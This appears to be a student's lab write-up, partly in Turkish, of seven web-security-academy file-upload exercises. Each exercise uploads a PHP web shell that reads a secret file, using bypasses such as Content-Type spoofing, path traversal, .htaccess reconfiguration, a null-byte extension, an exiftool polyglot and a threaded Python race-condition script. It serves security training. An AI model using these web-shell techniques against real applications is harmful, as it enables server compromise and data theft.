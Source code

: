 #### 1.Lab: Remote code execution via web shell upload

First we log in to our account through the info already disclosed to us in the lab info, after that we upload a random image to check how the image is posted and how the image is fetched
the image is fetched through the files/avatars/yourimage.jpg path. 
we then upload a php file that birngs forth Carlos'secret
the php file has the expression below written on it
expression: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
after that we send a get request that is forged thanks to the burp repeater.
we change the filepath to files/avatars/yourphpfile.php
The response of the request we send has the secret which is: VLe1wkWcp4QRBOfepfAT0tZL9ed86zT4


#### 2.Lab: Web shell upload via Content-Type restriction bypass

For this lab we do the same thing as the previous lab, but there is a catch. There is a cretain file type that our file has to adhere to in order for us to be able to upload it. But this file type can be easily changed via burp repeater we firstly choose the php file then send it, because it is intercepted we can change the content type to image/jpeg with this we face no problem uploading the data. When we send a get request with the file path /files/avatars/exploit.php we get the secret which is:

RHMViRwjDrhbPfJTLv3zMwY8HpIu1zgt

#### 3.Lab: Web shell upload via path traversal

File upload ettiğimizde avatar directorysinin altında php dosyamız çalışmıyor, biz de bundan dolayı path traversal ile files dosyasının altına gireceğiz dosyamızı. Bunu da interceptlediğimiz bir post requestinde filename kısmına ..%2fexploit.php yazarak sağlıyoruz. bunu yaptıktan sonra dosyamızı çağırdığımızda php çalışacak ve şifreyi elde edeceğiz.
qp8RYs784s2t4Hgt6nUX1keuYIfH8jam

#### 4.Lab: Web shell upload via extension blacklist bypass

The lab tells us that php files are blacklisted, so we need to find a way to upload our php file another way. When we send our php file we learn that the application uses an Apache Server. In this apache server we need to send a .htaccess file which can change the configuration of a specific folder, changes apply to all subdirectories. 

Note: apache documentation and how to write htaccess files

in our htaccess file we write

AddType application/x-httpd-php .naber
also dont forget to change the content-type to text/plain and the filename to .htaccess

this allows us to run files with .naber extension as php files

after this load the exploit.naber file that has `<?php echo file_get_contents('/home/carlos/secret'); ?>` written in it after and this shows us the password which is : AzVv4r0EvanWGcgS6k8UVuJ5vm9uEP6S

#### # 5.Lab: Web shell upload via obfuscated file extension

Note: learn more about obfuscation techniques.

Bu labda obfuscation yapmamız gerekiyor, bunun için de null byte `%00` ifadesini kullanıyoruz
upoad ederken filename kısmına `<?php echo file_get_contents('/home/carlos/secret'); ?>` ifadesini içeren exploit.php%00.png ifadesini yazıyoruz. response olarak bize  'The file avatars/exploit.php has been uploaded.' yazısını dönüyor bu da dosyayı başarılı olarak yüklediğimiz anlamına geliyor. 
ardından `GET /files/avatars/exploit.php HTTP/2` isteğini gönderiyoruz bu sayede de şifreyi elde etmiş oluyoruz. Şifremiz ise: ObEjDSJZ7AehPAbcagbSlPMSYz1V6Uag

#### 6.Lab: Remote code execution via polyglot web shell upload

Note: Learn more php

Bu labda uygulama yüklenen dosyanın fotoğraf olup olmadığını inceliyor, stegano ile bir dosya oluşturmayı denedim ama olmadı. Labda polyglot bir php dosyası oluşturmamız gerekiyormuş. Bunu da `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php` komutu ile gerçekleştiriyoruz bu dosyayı yükleldikten sonra get isteğiyle çekince response kısmında START ve END ifadeleri arasında aradığımız bilgiyi buluyoruz.

v6DAaQcUaY9Ic82effocZlyQnjisp9OU

#### 7.Lab: Web shell upload via race condition

Race Condition: A **race condition** occurs when multiple processes or threads access shared resources concurrently and the outcome depends on the order of execution. This can lead to unintended behavior, especially in **file handling, security checks, and database transactions**.

Note: requests, threading çalış

Bu labda race condition durumundan yararlanarak `<?php echo file_get_contents('/home/carlos/secret'); ?>` php payloadını çalıştırmaya çalışacağız. Uygulamaya jpg ve png dışında bir yükleme yapılamammaktadır. Bir dosya yüklenirken uygulama şöyle bir prosedür izlemektedir: geçici olarak dosya yükle, virüs check yap, veri tipi kontrol et jpg veya png değilse sil. Biz de burda kontrol ve geçici yükleme sırasında oluşan race condition'dan yararlanıyoruz. bunun için bir python kodu kullanıyoruz.

Python kodu:
```
import requests
import threading
import time

# Target URLs

UPLOAD_URL = "https://0a150080036d26e481ad7a9600ef00ea.web-security-academy.net/my-account/avatar"

EXPLOIT_URL = "https://0a150080036d26e481ad7a9600ef00ea.web-security-academy.net/files/avatars/exploit.php"

# Cookie for authentication

COOKIES = {"session": "uL2ncVAhqY4zgfUupgfCA8SEMf0PNuWr"}

# Headers for GET request

HEADERS = {

    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Accept-Encoding": "gzip, deflate, br",
}

  

# File Data for POST Request
FILES = {
    "avatar": ("exploit.php", "<?php echo file_get_contents('/home/carlos/secret'); ?>", "application/octet-stream"),
    "user": (None, "wiener"),
    "csrf": (None, "TtAWvP1FTiKuPwEVQha4iRYgPi1Pi2NI"),
}

# Function to upload the file

def upload_exploit():
    response = requests.post(UPLOAD_URL, cookies=COOKIES, files=FILES)
    print("[+] Uploaded exploit.php:", response.status_code)

# Function to request the exploit file

def request_exploit():
    while True:
        response = requests.get(EXPLOIT_URL, cookies=COOKIES, headers=HEADERS)
        if response.status_code == 200:
            print("[SUCCESS] Exploit executed!")
            print(response.text)
            break
        time.sleep(0.05)  # Short delay to retry

# Launching race condition
if __name__ == "__main__":
    # Create threads for multiple GET requests
    get_threads = [threading.Thread(target=request_exploit) for _ in range(5)]
    # Start GET request threads before uploading
    for t in get_threads:
        t.start()
    # Upload exploit file
    upload_exploit()
    # Wait for GET request threads to finish
    for t in get_threads:
        t.join()
```

Şifre: FT46BAmlxvGkHMgSylHbfFcDrq7KIGxF
